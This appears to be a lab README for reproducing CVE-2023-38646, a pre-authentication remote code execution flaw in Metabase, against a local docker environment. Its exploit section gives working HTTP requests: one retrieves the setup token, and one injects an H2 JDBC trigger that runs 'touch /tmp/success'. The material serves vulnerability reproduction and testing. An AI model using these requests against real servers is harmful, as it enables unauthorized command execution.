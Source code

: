 # Metabase Pre-Auth JDBC Remote Code Execution (CVE-2023-38646)

[中文版本(Chinese version)](README.zh-cn.md)

Metabase is an open source data analytics platform.

Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1 allow unauthenticated attackers to execute arbitrary commands on the server, at the server's privilege level. This issue is caused by JDBC url attacks in the setup request.

References:

- <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>
- <https://blog.calif.io/p/reproducing-cve-2023-38646-metabase>
- <https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA>

## Vulnerable environment

Execute following command to start a Metabase server 0.46.6:

```
docker compose up -d
```

After the server is started, you can browse the `http://your-ip:3000` to see the installation instructions like that:

![](1.png)

Fill in your information, and skip the data source form.

## Exploit

Firstly, use following request to retrieve the `setup-token`:

```
GET /api/session/properties HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](2.png)

The vulnerability can only be exploited by obtaining this setup token.

Secondly, replace your `[setup-token]` into the following request then send it:

```
POST /api/setup/validate HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

As you can see, `touch /tmp/success` has been executed successfully:

![](3.png)
